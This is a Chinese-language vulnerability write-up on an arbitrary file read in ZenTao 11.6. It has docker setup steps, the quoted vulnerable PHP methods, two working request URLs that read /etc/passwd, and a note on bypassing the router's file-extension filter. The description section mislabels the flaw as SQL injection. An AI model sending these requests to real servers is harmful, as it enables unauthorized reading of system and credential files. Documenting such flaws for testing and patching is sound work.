

# 禅道 11.6 api-getModel-api-getMethod-filePath 任意文件读取漏洞

## 漏洞描述

禅道 11.6 版本中对用户接口调用权限过滤不完善，导致调用接口执行SQL语句导致SQL注入

## 影响版本

<a-checkbox checked>禅道 11.6</a-checkbox></br>

## 环境搭建

<a-checkbox checked>这里使用docker环境搭建</a-checkbox></br>

```plain
docker run --name zentao_v11.6 -p 8084:80 -v /u01/zentao/www:/app/zentaopms -v /u01/zentao/data:/var/lib/mysql -e MYSQL_ROOT_PASSWORD=123456 -d docker.io/yunwisdom/zentao:v11.6
```


## 漏洞复现

这里造成漏洞的原因同样是调用接口权限无限制的原因

接口出现漏洞的原因具体参考可以查看上一篇 `禅道 11.6版本 SQL注入漏洞` 关于此漏洞的完整分析

### 第一种方法

查看`module/file/moudel.php`下的`parseCSV方法`

```php
public function parseCSV($fileName)
    {
        $content = file_get_contents($fileName);
        /* Fix bug #890. */
        $content = str_replace("\x82\x32", "\x10", $content);
        $lines   = explode("\n", $content);

        $col  = -1;
        $row  = 0;
        $data = array();
        foreach($lines as $line)
        {
            $line    = trim($line);
            $markNum = substr_count($line, '"') - substr_count($line, '\"');
            if(substr($line, -1) != ',' and (($markNum % 2 == 1 and $col != -1) or ($markNum % 2 == 0 and substr($line, -2) != ',"' and $col == -1))) $line .= ',';
            $line = str_replace(',"",', ',,', $line);
            $line = str_replace(',"",', ',,', $line);
            $line = preg_replace_callback('/(\"{2,})(\,+)/U', array($this, 'removeInterference'), $line);
            $line = str_replace('""', '"', $line);

            /* if only one column then line is the data. */
            if(strpos($line, ',') === false and $col == -1)
            {
                $data[$row][0] = trim($line, '"');
            }
            else
            {
                /* if col is not -1, then the data of column is not end. */
                if($col != -1)
                {
                    $pos = strpos($line, '",');
                    if($pos === false)
                    {
                        $data[$row][$col] .= "\n" . $line;
                        $data[$row][$col] = str_replace('&comma;', ',', $data[$row][$col]);
                        continue;
                    }
                    else
                    {
                        $data[$row][$col] .= "\n" . substr($line, 0, $pos);
                        $data[$row][$col] = trim(str_replace('&comma;', ',', $data[$row][$col]));
                        $line = substr($line, $pos + 2);
                        $col++;
                    }
                }

                if($col == -1) $col = 0;
                /* explode cols with delimiter. */
                while($line)
                {
                    /* the cell has '"', the delimiter is '",'. */
                    if($line{0} == '"')
                    {
                        $pos  = strpos($line, '",');
                        if($pos === false)
                        {
                            $data[$row][$col] = substr($line, 1);
                            /* if line is not empty, then the data of cell is not end. */
                            if(strlen($line) >= 1) continue 2;
                            $line = '';
                        }
                        else
                        {
                            $data[$row][$col] = substr($line, 1, $pos - 1);
                            $line = substr($line, $pos + 2);
                        }
                        $data[$row][$col] = str_replace('&comma;', ',', $data[$row][$col]);
                    }
                    else
                    {
                        /* the delimiter default is ','. */
                        $pos = strpos($line, ',');
                        /* if line is not delimiter, then line is the data of cell. */
                        if($pos === false)
                        {
                            $data[$row][$col] = $line;
                            $line = '';
                        }
                        else
                        {
                            $data[$row][$col] = substr($line, 0, $pos);
                            $line = substr($line, $pos + 1);
                        }
                    }

                    $data[$row][$col] = trim(str_replace('&comma;', ',', $data[$row][$col]));
                    $col++;
                }
            }
            $row ++;
            $col = -1;
        }

        return $data;
    }
```


这里可以看到`以file为模块名、parseCSV为方法名去调用`读取文件


读取的文件名`$filename`参数可控，例如读取`/etc/passwd`


```plain
http://xxx.xxx.xxx.xxx/api-getModel-file-parseCSV-fileName=/etc/passwd
```





- ✅注意以 .php .txt 结尾的会被 /framework/base/router.class.php中的parsePathInfo方法 过滤

### 第二种方法


查看`module/api/moudel.php`下的`getMethod方法`


```php
public function getMethod($filePath, $ext = '')
{
    $fileName  = dirname($filePath);
    $className = basename(dirname(dirname($filePath)));
    if(!class_exists($className)) helper::import($fileName);
    $methodName = basename($filePath);

    $method = new ReflectionMethod($className . $ext, $methodName);
    $data   = new stdClass();
    $data->startLine  = $method->getStartLine();
    $data->endLine    = $method->getEndLine();
    $data->comment    = $method->getDocComment();
    $data->parameters = $method->getParameters();
    $data->className  = $className;
    $data->methodName = $methodName;
    $data->fileName   = $fileName;
    $data->post       = false;

    $file = file($fileName);
    for($i = $data->startLine - 1; $i <= $data->endLine; $i++)
    {
        if(strpos($file[$i], '$this->post') or strpos($file[$i], 'fixer::input') or strpos($file[$i], '$_POST'))
        {
            $data->post = true; 
        }
    }
    return $data;
}
```


这里与第一种大同小异，只是调用了不同模块的方法


看到 fileName  = dirname(filepath) 这段则为返回的目录名


所以读取`/etc/passwd`则需要写为`/etc/passwd/1`来绕过


```plain
http://xxx.xxx.xxx.xxx/api-getModel-api-getMethod-filePath=/etc/passwd/1
```


